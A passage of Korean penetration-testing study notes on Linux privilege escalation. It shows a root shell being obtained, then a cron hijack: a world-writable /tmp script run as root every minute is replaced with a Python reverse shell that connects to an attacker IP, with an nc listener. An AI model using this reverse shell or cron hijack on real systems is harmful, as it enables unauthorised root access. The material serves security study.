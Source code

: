4. 쉘이 열리면 확인:
    ```
    whoami
    ```
    - 출력:  
      ```
      root
      ```
    - 즉, **root 권한의 셸** 획득
---
# 🛡️ Cron (작업 스케줄러)을 이용한 권한 상승
**cron이란?**
- 특정 시간이나 요일에 자동으로 실행되는 작업을 예약하는 데 사용
- 각 유저는 자신의 crontab 작업을 설정할 수 있고,  
  시스템 전반적으로는 `/etc/cron.d/` 및 `/etc/cron.*` 디렉토리에 위치한 파일들을 통해 관리
---
## 공격 순서

1. **현 유저 cron 확인**
    ```
    crontab -l
    ```
- 일반 사용자로 `cron -l`을 실행하면 다음과 같은 오류가 발생
  - cron: can't open or create /var/run/crond.pid: Permission denied
  - 이는 **cron 관련 파일과 디렉터리의 권한이 root:root로 설정**되어 있어  
    일반 사용자는 크론 작업을 직접 등록하거나 실행할 수 없기 때문임. crontab 파일, pid 파일, spool 디렉터리 등은 모두 root 권한이 필요하며,  
    일반 사용자는 자신의 crontab만 수정할 수 있음
  - 따라서, 현 유저로는 스케쥴러를 직접 등록이 불가하여 시스템이 실행하는 스케쥴러을 이용하여 권한 상승 진행

2. **시스템 전반적 cron 확인**
    `ls -alhR /etc/cron*`
    - 출력:  
      ```
      /etc/cron.d:
	 -rw-r--r-- 1 root root 57 Sep 13 2023 backup
      ```
    - `/etc/cron.d/backup` 스케줄러가 있는 것을 확인 	
	
    `cd /etc/cron.d/; cat backup`	
    - 출력:  
      ```
      */1 * * * * root /usr/bin/python3 /tmp/onetime-backup.py
      ```
    - 해석: **매 1분마다**, root 권한으로 `/usr/bin/python3 /tmp/onetime-backup.py` 실행
	- ⚠️ 즉, /tmp/onetime-backup.py 파일에 악성 코드를 넣으면, 매 1분마다 root 권한으로 실행됨!
	  
3. **악성 코드(리버스 쉘) 작성 및 삽입**
① 리버스 쉘 코드 준비 (공격자 측)
 - https://www.revshells.com/ 에서 파이썬 리버스 쉘 참고 : 
 ``` 
 import sys,socket,os,pty;s=socket.socket();s.connect(('공격자IP',9001));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn('sh')
 ```
② 리스너 대기 (공격자 측)
 ```
 nc -lvnp 9001
 ```
